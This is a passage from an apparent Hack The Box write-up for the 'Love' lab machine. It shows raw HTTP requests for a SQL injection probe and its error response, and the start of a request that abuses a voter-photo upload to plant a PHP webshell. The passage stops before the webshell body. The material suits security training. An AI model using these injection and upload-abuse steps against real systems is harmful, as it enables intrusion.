 I struggled trying to do something useful with an `UPDATE` injection, but made no progress.

I also found this:

```http
POST /admin/positions_row.php HTTP/1.1
Host: love.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 4
Origin: http://love.htb
DNT: 1
Connection: keep-alive
Referer: http://love.htb/admin/positions.php
Cookie: PHPSESSID=18kq9t1q9vii32oiceoj5n41c2

id='
```

```http
HTTP/1.1 200 OK
Date: Wed, 04 Sep 2024 19:01:09 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
X-Powered-By: PHP/7.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 252
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in C:\xampp\htdocs\omrs\admin\positions_row.php:8
Stack trace:
#0 {main}
  thrown in <b>C:\xampp\htdocs\omrs\admin\positions_row.php</b> on line <b>8</b><br />
```

However, I couldn't get that to produce results either.

I finally found an RCE path via `/admin/voters_add.php`. New voter profiles upload a profile photo to the `/images/` directory. This request can be intercepted and modified to upload a PHP webshell:

```http
POST /admin/voters_add.php HTTP/1.1
Host: love.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------6162343632466008669555397480
Content-Length: 772
Origin: http://love.htb
DNT: 1
Connection: keep-alive
Referer: http://love.htb/admin/voters.php
Cookie: PHPSESSID=18kq9t1q9vii32oiceoj5n41c2
Upgrade-Insecure-Requests: 1

-----------------------------6162343632466008669555397480
  Content-Disposition: form-data; name="firstname"
```
